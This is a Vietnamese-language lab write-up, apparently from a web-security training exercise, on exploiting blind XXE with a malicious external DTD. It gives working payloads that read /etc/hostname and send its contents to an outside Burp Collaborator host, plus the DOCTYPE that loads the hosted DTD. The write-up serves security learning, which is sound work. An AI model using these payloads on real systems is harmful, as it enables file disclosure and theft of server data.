


## Exploiting blind XXE to exfiltrate data using a malicious external DTD (REFER)

1. Theo như gợi ý, chúng ta sẽ store 1 file DTD trên server thông qua exploit server, trong đó nội dung cần trích xuất sẽ được gửi tới hệ thống mà ta có thể kiểm soát.

2. Nội dung file dtd:
- Khai báo parameter entity ``file`` chứa nội dung file cần trích xuất ```<!ENTITY % file SYSTEM "file:///etc/hostname">```
- Khai báo parameter entity ``eval`` chứa trong đó là dynamic parameter entity ``exfil``
- Sau đó gọi param ``eval`` để khai báo tham chiếu cho ``exfil`` entity với mục đích để cho nội dung của ``file`` được gán vào URL query string. ```<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://gbv4nrlc523pkwqp09hkm6awsnydm2.burpcollaborator.net/?x=%file;'>">```



3. Sau đó trong request check stock tạo parameter entity tham chiếu đến file ``exploit.dtd`` trên server exploit
- Payload: ```<!DOCTYPE test [<!ENTITY % test-xxe SYSTEM "https://exploit-0afa000e03661144c001c12e011e0016.exploit-server.net/exploit.dtd"> %test-xxe;]>```

4. param entity ``test-xxe`` sẽ xử lý lần lượt trong chương trình external DTD. Nội dung file hostname được gán vào sau URL rồi gửi request sang Burp Collaborator.

